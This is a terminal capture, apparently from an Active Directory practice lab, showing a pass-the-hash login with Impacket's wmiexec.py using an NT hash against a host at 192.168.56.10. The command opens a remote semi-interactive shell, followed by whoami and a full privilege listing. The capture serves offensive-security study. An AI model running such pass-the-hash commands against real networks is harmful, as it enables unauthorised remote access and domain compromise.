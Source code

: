 ```
psyconauta@insulanova:~/Research/dragoncastle|⇒  wmiexec.py -hashes :d977b98c6c9282c5c478be1d97b237b8 SEVENKINGDOMS/eddard.stark@192.168.56.10          
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sevenkingdoms\eddard.stark

C:\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
```